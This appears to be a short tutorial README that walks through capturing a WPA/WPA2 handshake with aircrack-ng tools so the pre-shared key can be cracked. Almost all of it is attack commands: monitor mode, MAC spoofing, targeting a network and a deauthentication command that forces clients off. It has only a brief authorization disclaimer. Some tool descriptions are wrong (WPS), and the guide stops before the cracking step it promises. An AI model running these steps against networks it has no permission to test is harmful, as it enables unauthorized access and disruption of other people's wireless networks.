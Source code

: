 # WPA/WPA2 Handshake Capture Guide

This guide outlines hows to capture a WPA/WPA2 handshake in order to attempt to crack the pre-shared key using a wordlist.

## This guide is for educational purposes only. Unauthorized access to networks is illegal and unethical. Use only on networks you own or have explicit permission to test.

## Tools
- Kali Linux
- External wireless adapter
* airmon-ng - Enables monitor mode for adapter
* airodump-ng - Scans WPS-enabled access points
* aireplay-ng - Tools for WPS Pin

  ## Check for adapter
    Sudo iwconfig

  ## Enable adapter if disabled.

  ## Bring Down network in adapter
    Sudo ifconfig wlan0 down

  ## Terminate running processes
    Sudo airmon-ng check kill

  ## Turn monitor mode for adapter
    Sudo airmon-ng start wlan0

  ## Spoof MAC address
    Sudo macchanger -r wlan0

  ## Determine which networks 5GHz or 2GHz to test
    Sudo airodump-ng --band a wlan0

  ## Target a network
    Sudo airodump-ng --bssid (Targeted Network MAC) --channel (Targeted Network Channel) --write (txt file, optional) wlan0

  ## Devices talking to network should be listed.

  ## using seperate command target a device, to shut down, in order for it ping for a handshake with network during restart.
    Sudo aireplay-ng --deauth 4 -a (Target Network MAC) -c(Target Device MAC) wlan0
  
